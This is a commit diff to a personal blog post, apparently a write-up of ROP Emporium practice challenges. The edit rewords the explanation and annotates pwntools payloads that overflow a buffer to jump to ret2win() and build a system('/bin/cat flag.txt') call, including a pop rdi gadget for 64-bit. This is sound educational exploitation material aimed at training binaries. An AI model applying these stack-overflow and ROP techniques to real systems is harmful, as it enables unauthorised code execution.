

Before and after one commit to farazsth98/farazsth98.github.io, a Jekyll site: the page built from _posts/2019-07-19-rop-emporium-challenges.markdown, in a window 1280 px wide and 1400 px high, scrolled down 9052 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Fixed typos and english

````diff
--- a/_posts/2019-07-19-rop-emporium-challenges.markdown
+++ b/_posts/2019-07-19-rop-emporium-challenges.markdown
@@ -204,7 +204,7 @@ The last function we have to check is `ret2win()`.
 ```
 It's a tiny function that just calls `system("/bin/cat flag.txt")`. This is the function we want to jump to. Seems easy enough.
 
-Now that we know what to do, let's crash the binary and see where it crashes. I like to use gdb gef for this as it has its own built in `pattern create` and `pattern offset` shown below.
+Now that we know what to do, let's attempt to crash the program and see exactly where the crash occurs. I like to use gdb gef for this as it has its own built in `pattern create` and `pattern offset` shown below.
 
 ```shell
 gef➤  pattern create 50
@@ -272,8 +272,8 @@ elf = ELF("./ret2win")
 
 ret2win_addr = elf.symbols['ret2win']
 
-payload = "A"*44
-payload += p32(ret2win_addr)
+payload = "A"*40 + "A"*4 # 40 A's for the buffer, 4 A's to overwrite EBP
+payload += p32(ret2win_addr) # Overwrite EIP with the address to ret2win()
 
 sh = elf.process()
 
@@ -389,8 +389,8 @@ elf = ELF("./ret2win")
 
 ret2win_addr = elf.symbols['ret2win']
 
-payload = "A"*40
-payload += p64(ret2win_addr)
+payload = "A"*32 + "A"*8 # 32 A's for the buffer, 8 A's to overwrite RBP
+payload += p64(ret2win_addr) # Overwrite RIP with the address to ret2win()
 
 sh = elf.process()
 
@@ -505,15 +505,25 @@ Let's take a look at `usefulFunction()`.
 [0x08048649]>
 ```
 
-This calls `system("/bin/ls")`, which is not what we want. We want `system("/bin/cat flag.txt")`.
+This calls `system("/bin/ls")`, which is not what we want. We want `system("/bin/cat flag.txt")`. How do we change the argument that `system()` gets called with?
 
-The way we get around this is to call system ourselves, and set up the call stack so that system gets the address of the string "/bin/cat flag.txt" as its argument. Remember that when a function is called, it expects the stack to look like this (memory addresses increase towards the right):
+The way we get around this is to call `system()` ourselves. We set up the stack such that EIP jumps to the address to `system()`'s (thus calling it in the process). We want the first argument to be the address of the string "/bin/cat flag.txt". Therefore, we want the stack to look like this:
 
-\<return_addr\>  ---\>  \<arguments\>
+```
+{overwritten_eip_with_addr_to_system}
+            ↓
+{return_addr_of_system}
+            ↓
+{first_argument_of_system}
+```
 
-So what we want is to overwrite EIP with the address to `system()`. The next four bytes immediately following that will be the return address of `system()` (which doesn't matter). The next four bytes must be the address of the "/bin/cat flag.txt" string in memory. This will result in `system("/bin/cat flag.txt"` being called. If this is confusing you, please review how function arguments are passed through the stack.
+So this is what we want to do:
 
-Let's find the addresses then. I use rabin2 to find addresses of strings, and gdb to find the address of `system@plt`. For more information about how the Global Offset Table (GOT) and the Procedure Linkage Table (PLT) work, see [this](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html).
+1. Overwrite EIP with the address to `system()`
+2. The next four bytes will be the return address of `system()`. This can be gibberish and doesn't matter.
+3. The next four bytes must be the address to the string "/bin/cat flag.txt". This is `system()`'s first argument.
+
+I use rabin2 to find addresses of strings, and gdb to find the address of `system@plt`. For more information about how the Global Offset Table (GOT) and the Procedure Linkage Table (PLT) work, see [this](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html).
 ```shell
 root@kali:~/Documents/ropemporium/split/32split# rabin2 -z split32
 [Strings]
@@ -533,6 +543,9 @@ gef➤  print 'system@plt'
 $1 = {<text variable, no debug info>} 0x8048430 <system@plt>
 gef➤
 ```
+`system@plt is at 0x8048430`
+
+`"/bin/cat flag.txt" is at 0x0804a030`
 
 Writing a simple exploit script with the given information.
 ```python
@@ -571,9 +584,18 @@ $
 
 The 64-bit version is slightly more difficult because function arguments don't get passed through the stack anymore.
 
-When a function is called, the function's arguments are passed in through 6 registers. In order (from the 1st to the 6th argument), the registers are `rdi`, `rsi`, `rdx`, `rcx`, `r8`, and `r9`. In this case, since we want to call `system()` with the address to the string "/bin/cat flag.txt", we have to first put this address into `rdi` before calling `system()`.
+When a function is called, the function's arguments are passed in through 6 registers. The registers are (in order from the 1st to the 6th argument):
 
-This is where a tool like ropper comes into play. What ropper does is it goes through a binary and finds all occurrences of these things called "gadgets". An example of a gadget is `pop rdi; ret;`, which simply pops the top value off the stack into the RDI register, then returns out to the next value on the stack. This is known as a "pop rdi gadget". Another gadget might be a `pop rsi; pop r15; ret;` gadget, which you can return into after the pop rdi gadget, in order to call a function with more than one argument.
+1. rdi
+2. rsi
+3. rdx
+4. rcx
+5. r8
+6. r9
+
+In this case, since we want to call `system()` with the address to the string "/bin/cat flag.txt", we have to first put this address into `rdi` before calling `system()`.
+
+This is where a tool like ropper comes into play. What ropper does is it goes through a binary and finds all occurrences of these bits of assembly called "gadgets". An example of a gadget is `pop rdi; ret;`, which simply pops the top value off the stack into the RDI register, then returns out to the next value on the stack. This is known as a "pop rdi gadget". Another gadget might be a `pop rsi; pop r15; ret;` gadget, which you can return into out of a pop rdi gadget. This would allow you to control up to three arguments to a function!
 
 A pop rdi gadget works well for us since `system()` only requires one argument.. We start out by using ropper to find a pop rdi gadget.
 
@@ -599,6 +621,8 @@ Gadgets
 91 gadgets found
 root@kali:~/Documents/ropemporium/split/64split#
 ```
+
+`"pop rdi; ret;" at 0x0000000000400883`
 
 Now, this is what we need to do.
 
````
Also changed, not shown: other parts of _posts/2019-07-19-rop-emporium-challenges.markdown (+4 -4 lines).
